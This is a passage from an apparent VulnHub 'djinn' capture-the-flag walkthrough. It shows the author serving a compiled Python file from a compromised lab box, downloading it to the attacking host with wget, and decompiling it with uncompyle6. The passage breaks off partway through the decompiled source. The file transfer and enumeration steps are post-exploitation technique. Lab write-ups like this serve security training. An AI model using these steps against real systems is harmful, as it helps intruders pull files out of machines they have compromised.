 Furthermore, Python simple web server can be launched from Sam's home directory
and then the file can be downloaded to the host for further enumeration.

sam\@djinn:/home/sam\$ python -m SimpleHTTPServer

python -m SimpleHTTPServer

Serving HTTP on 0.0.0.0 port 8000 ...

192.168.211.146 - - [08/Dec/2019 23:29:26] "GET /.pyc HTTP/1.1" 200 -

192.168.211.146 - - [08/Dec/2019 23:31:43] "GET /.pyc HTTP/1.1" 200 -

lifesfun:\~/vulnhub/djinn\# wget http://192.168.211.145:8000/.pyc

\--2019-12-08 13:01:43-- http://192.168.211.145:8000/.pyc

Connecting to 192.168.211.145:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 1749 (1.7K) [application/octet-stream]

Saving to: ‘.pyc’

.pyc 100%[===================\>] 1.71K --.-KB/s in 0s

2019-12-08 13:01:43 (155 MB/s) - ‘.pyc’ saved [1749/1749]

Once downloaded uncompyle6 tool from python was used to decompile the file,
which presented the following:

lifesfun:\~/vulnhub/djinn\# uncompyle6 .pyc

\# uncompyle6 version 3.5.1

\# Python bytecode 2.7 (62211)

\# Decompiled from: Python 2.7.17 (default, Oct 19 2019, 23:36:22)

\# [GCC 9.2.1 20191008]

\# Embedded file name: /home/mzfr/scripts/exp.py

\# Compiled at: 2019-11-07 08:05:18

from getpass import getuser

from os import system

from random import randint

def naughtyboi():

print 'Working on it!! '

def guessit():

num = randint(1, 101)

print 'Choose a number between 1 to 100: '

s = input('Enter your number: ')

if s == num:
